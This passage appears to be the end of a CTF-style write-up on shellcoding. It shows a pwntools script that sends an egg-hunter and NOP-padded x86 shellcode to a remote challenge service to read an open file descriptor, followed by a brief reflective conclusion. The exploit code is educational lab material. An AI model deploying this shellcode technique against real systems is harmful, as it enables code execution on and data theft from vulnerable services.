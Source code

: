 #p = process('./find-me')
#pause()
p = remote('plsdonthaq.me', 3003)

p.readuntil('new stack ')
addr = p.readuntil('\n', drop=True).decode()

smallCode = asm('''
lp:
    pop eax
    cmp eax, 0x90909090
    jne lp
    jmp esp

''')

p.sendline(smallCode)
p.readuntil('bigbuf shellcode:')
bigCode = asm('''

sub esp, 0x200
mov eax, 0x3
mov ebx, 1000
mov ecx, esp
mov edx, 0x200
int 0x80


mov edx, eax
mov eax, 0x4
mov ebx, 1
mov ecx, esp
int 0x80

''')

padding = asm('nop') * ((0x100 - len(bigCode))//2)
p.sendline(padding + bigCode + padding)

p.interactive()
```

## Conclusion

---

Wow, you weren't lying when you said `make sure to print, read and memorise the intel x86 manual`. Finding instructions to make smaller shellcode was a very interesting task, especially because I couldn't find consise documentation.

Overall, shellcode was pretty fun.

> `All we need now is for someone to make a JavaScript plugin for this`
